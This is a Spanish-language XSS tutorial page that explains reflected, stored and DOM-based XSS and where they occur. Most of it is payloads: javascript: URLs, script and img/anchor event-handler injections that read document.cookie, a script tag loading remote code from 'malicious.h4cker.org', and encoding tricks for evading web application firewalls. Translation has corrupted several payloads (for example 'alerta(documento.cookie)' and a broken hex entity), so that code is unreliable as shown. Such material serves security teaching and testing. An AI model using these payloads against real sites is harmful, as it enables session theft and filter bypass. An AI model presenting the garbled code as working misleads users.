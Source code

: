 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# XSS Injection

Encontrar las vulnerabilidades xss se logran mediante los siguientes tipos de ataques:

1. Reflejado (Reflected XSS)
2. Persistente (Stored XSS)
3. Basado en DOM (DOM-based XSS)

Normalmente encontrará vulnerabilidades XSS en la siguiente ubicaciones:

* Campos de búsqueda que hacen eco de una cadena de búsqueda al usuario
* encabezados HTTP
* Campos de entrada que reflejan los datos del usuario
* Mensajes de error que devuelven texto proporcionado por el usuario
* Campos ocultos que pueden incluir datos ingresados ​​por el usuario.
* Aplicaciones que muestran datos proporcionados por el usuario

Desde la barra de direcciones de un navegador:

```
  javascript:alert("Prueba Omar_s_XSS"); javascript:alerta(documento.cookie);
```

Un campo de entrada del usuario en un formulario web:

```
<script>alerta("Prueba XSS")</script>
```

### XSS Evasion Techniques

Se pueden utilizar numerosas técnicas para evadir las protecciones XSS y los productos de seguridad, como los firewalls de aplicaciones web (WAF).

Una inyección de JavaScript XSS que sería detectada por la mayoría de los filtros XSS y soluciones de seguridad:

```
<SCRIPT SRC=http://malicious.h4cker.org/xss.js></SCRIPT>
```

La etiqueta HTML **img** se puede utilizar de varias maneras para evadir potencialmente los filtros XSS:

```
<img src="javascript:alert('xss');"> <img src=javascript:alert('xss')> <img src=javascript:alert("XSS")> <img src=javascript:alert ('xs')>
```

También es posible utilizar otras etiquetas HTML maliciosas, como se demuestra aquí:

```
  <a onmouseover="alert(document.cookie)">Este es un enlace malicioso</a> <a onmouseover=alert(document.cookie)>Este es un enlace malicioso</a>
```

Un atacante también puede utilizar una combinación de referencias de caracteres HTML hexadecimales para evadir potencialmente los filtros XSS, como se demuestra aquí:

```
  <img src=javascript& #x3Aalert('XSS' x29>
```

La codificación US ASCII puede eludir muchos filtros de contenido y también puede usarse como técnica de evasión, pero solo funciona si el sistema transmite en codificación US ASCII o si se configura manualmente. Esta técnica es útil contra WAF. El siguiente ejemplo demuestra el uso de la codificación ASCII de EE. UU. para evadir WAF:

```
¼script¾alerta(¢XSS¢)¼/script¾
```

El siguiente ejemplo muestra un ejemplo de una técnica de evasión que implica el uso de etiquetas de inserción HTML para incrustar un archivo de gráficos vectoriales escalables (SVG):

```
  <EMBED SRC=”data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcm cvMjAwMC9zdmciIHhtbG5zOnhsa W5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3 hsaW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaW dodD0iMjAwIiBpZD0ieHNzIj48c2NyaXB0IHR5cGU 9InRleHQvZWNtYXNjcmlwdC I+YWxlcnQoIlhTUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" tipo="image/svg+xml" AllowScriptAccess="always"></EMBED>
```

<mark style="color:red;">**Recursos**</mark>
